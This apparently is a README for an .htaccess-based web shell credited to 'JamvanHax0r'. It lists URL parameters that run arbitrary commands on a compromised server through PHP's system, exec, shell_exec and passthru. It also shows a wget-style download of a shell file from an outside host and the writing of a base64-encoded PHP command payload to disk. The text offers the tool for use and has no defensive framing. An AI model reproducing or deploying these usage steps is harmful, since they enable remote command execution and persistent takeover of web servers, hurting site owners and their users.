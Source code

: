 # .htaccess Shell by JamvanHax0r

Usage for jhax0r_php.shell.htaccess
site.com/urfile.ht?c=command here

Usage for .htaccess Multifunctional Shell
- CMD Command<br>
.htaccess?cmd=command&function=function
Exp:
.htaccess?cmd=ls&function=system
.htaccess?cmd=ls&function=exec
.htaccess?cmd=ls&function=shell_exec
.htaccess?cmd=ls&function=pasthru
- WGET File
.htaccess?file=nameoffile.php&link=ur website/shell.txt
Exp:
.htaccess?file=shell.php&link=http://mysite.com/shell.txt
- Encode Base64 Command
.htaccess?name=namafile.php&enc=encode base64 here
Exp:
.htaccess?name=namafile.php&enc=PD9waHAgc3lzdGVtKCdscyAtbGEnKTs/Pgo=

For Base64 and Other Language En/Decoder
> http://conzeptnote.com/en.php

Enjoy \🤘🏻/
